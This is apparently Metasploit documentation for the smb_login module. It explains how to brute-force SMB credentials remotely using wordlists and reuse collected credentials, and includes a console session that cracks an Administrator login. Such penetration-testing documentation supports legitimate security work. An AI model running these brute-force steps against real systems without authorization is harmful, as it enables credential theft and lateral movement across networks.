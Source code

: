 The smb_login module is used to bruteforce SMB remotely. SMB credentials are extra valuable because they are system credentials, and you can probably reuse some of them to log in to more machines.

## Vulnerable Application

To use smb_login, make sure you are able to connect to a SMB service that supports SMBv1.

## Verification Steps

The following demonstrates a basic scenario of using the [built-in wordlists](https://github.com/rapid7/metasploit-framework/tree/master/data/wordlists) to brute-force SMB:

```
msf > use auxiliary/scanner/smb/smb_login 
msf auxiliary(smb_login) > set RHOSTS 192.168.1.80
RHOSTS => 192.168.1.80
msf auxiliary(smb_login) > set USER_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
USER_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
msf auxiliary(smb_login) > set PASS_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
PASS_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
msf auxiliary(smb_login) > run

[+] 192.168.1.80:445      - 192.168.1.80:445 SMB - Success: '.\root:monkey' Administrator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) > 
```

If you have a database connected, you should also see this credential logged:

```
msf auxiliary(smb_login) > creds
Credentials
===========

host          origin        service        public  private  realm  private_type
----          ------        -------        ------  -------  -----  ------------
192.168.1.80  192.168.1.80  445/tcp (smb)  root    monkey          Password

msf auxiliary(smb_login) 
```

## Options

By default, the smb_login module only requires the RHOSTS option to run. But in reality, you will
also need to supply user names and passwords. The following options are available to support
different credential formats:

**The USER_FILE option**

If you happen to manage all the found user names in a separate file, then this option would be
suitable for that. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The SMBUser option**

If you are testing a specific user, use this option.

```
set SMBUser [user name]
```

**The SMBPass option**

If you are testing a specific password, use this option.

```
set SMBPass [password]
```

Note: If an account has been successfully brute-forced, that account will not be tried again.

Additionally, if you wish to disable automatic detection of all-access systems, you can change the following option:

**The DETECT_ANY_AUTH option**

This option enables detection of systems accepting any authentication. A bogus login will be attempted.

```
set DETECT_ANY_AUTH false
```

